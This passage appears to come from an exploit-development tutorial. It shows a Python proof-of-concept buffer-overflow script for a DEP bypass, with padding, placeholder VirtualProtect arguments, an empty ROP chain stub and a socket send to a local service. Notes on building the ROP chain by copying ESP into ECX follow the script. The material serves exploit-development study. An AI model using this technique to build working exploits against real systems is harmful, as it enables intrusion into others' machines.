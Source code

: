 Here we have the fist PoC

```py
# 0x4rt3mis
# DEP Bypass
import socket
import sys
from struct import pack

total = 2500

virtual_protect_placeholder = pack("<L", (0x45454545)) # KERNEL32!VirtuaProtect
virtual_protect_placeholder += pack("<L", (0x46464646)) # Shellcode Return Addres
virtual_protect_placeholder += pack("<L", (0x47474747)) # Shellcode Address
virtual_protect_placeholder += pack("<L", (0x48484848)) # dwSize
virtual_protect_placeholder += pack("<L", (0x49494949)) # flNewProtect
virtual_protect_placeholder += pack("<L", (0x51515151)) # lpflOldProtect

def create_rop_chain():
        rop_gadgets = [ ]
        return ''.join(pack('<L', _) for _ in rop_gadgets)

rop_chain = create_rop_chain()

payload = b'\x41' * (1052 - len(virtual_protect_placeholder))
payload += virtual_protect_placeholder
payload += pack("<L", (0x6ab2223e))  # ret
payload += rop_chain
payload += b'\x90' * 10
	
target = b'127.0.0.1'

try:
	s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	s.connect((target,8888))
	s.send(payload)
except:
	print "Crashed!"
```

# Copying ESP

Now, knowing that, we have a proper place to set our values to execute the VirtualProtect API and change the desired memory area to execute code inside it.

We'll get a copy of ESP into ECX (or any other Register) and the decrease 20 bytes in it. That's because we want to have ECX as our place where we'll put the values to make it working. So the gadget sequence we'll use here now will be this.

Why ECX? 

Because we wanto to use this write-what gadget. This is important to define before starting digging deeper in the ROP chain.
